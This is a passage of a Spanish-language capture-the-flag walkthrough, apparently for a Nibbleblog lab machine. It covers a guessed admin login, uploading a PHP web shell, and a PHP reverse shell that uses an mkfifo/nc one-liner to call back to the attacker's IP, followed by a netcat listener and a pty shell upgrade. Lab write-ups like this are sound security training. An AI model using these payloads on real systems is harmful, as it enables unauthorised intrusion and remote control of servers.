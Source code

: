 ```plaintext
Usuario: admin
Contraseña: nibb...  (vemos que se repite dos veces en el encaezado, por lo que deducimos que se puede probar)
```

Accedemos con éxito a la administración de Nibbleblog.

### 8. Subida de una Web Shell

**Creamos un archivo PHP malicioso:**

```bash
nvim shell.php
```

Contenido:

```php
<?php system('id'); ?>
```

Subimos el archivo a la administración de Nibbleblog y verificamos ejecución:

```bash
curl http://10.129.168.126/nibbleblog/content/private/plugins/my_image/image.php
```

Salida:

```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

### 9. Obtención de Shell Reversa

**Creamos un archivo PHP con una Reverse Shell:**

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.X 1234 >/tmp/f"); ?>
```

**Abrimos un listener en el atacante (AT):**

```bash
nc -lvnp 1234
```

**Ejecutamos la shell remota:**

```bash
curl http://10.129.168.126/nibbleblog/content/private/plugins/my_image/image.php
```

Obtenemos una shell interactiva:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 10. Extracción de archivos comprimidos
